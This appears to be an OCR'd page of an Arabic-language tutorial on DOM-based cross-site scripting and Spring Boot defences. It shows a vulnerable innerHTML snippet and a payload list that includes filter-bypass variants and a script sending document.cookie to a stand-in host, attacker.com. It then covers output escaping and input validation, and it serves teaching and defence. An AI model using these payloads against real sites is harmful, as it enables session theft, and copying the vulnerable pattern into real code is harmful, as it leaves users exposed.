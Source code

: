 **3. DOM-based XSS:**
```
- الثغرة في JavaScript من جانب العميل
- البيانات تُعالج في DOM بدون تنقية

مثال JavaScript ضعيف:
var search = document.location.hash.substring(1);
document.getElementById("results").innerHTML = "You searched for: " + search;

الهجوم:
http://example.com/#<img src=x onerror=alert(document.cookie)>
```

**أمثلة على Payloads:**
```html
<!-- Basic Alert -->
<script>alert('XSS')</script>

<!-- Cookie Stealing -->
<script>
  var img = new Image();
  img.src = 'http://attacker.com/steal?cookie=' + document.cookie;
</script>

<!-- Using Event Handlers -->
<img src=x onerror=alert('XSS')>
<body onload=alert('XSS')>

<!-- Bypassing Filters -->
<ScRiPt>alert('XSS')</ScRiPt>
<img src=x onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;">
```

**طرق الحماية:**

**1. Output Encoding/Escaping:**
```java
import org.springframework.web.util.HtmlUtils;

// تنظيف HTML
String safe = HtmlUtils.htmlEscape(userInput);

// في Thymeleaf (Spring Boot)
<span th:text="${userInput}"></span>  <!-- آمن -->
<span th:utext="${userInput}"></span> <!-- غير آمن -->
```

**2. Input Validation:**
```java
import javax.validation.constraints.Pattern;

public class CommentDTO {
    @Pattern(regexp = "^[a-zA-Z0-9\\s.,!?-]*$",
             message = "Invalid characters")
    private String content;
}
```
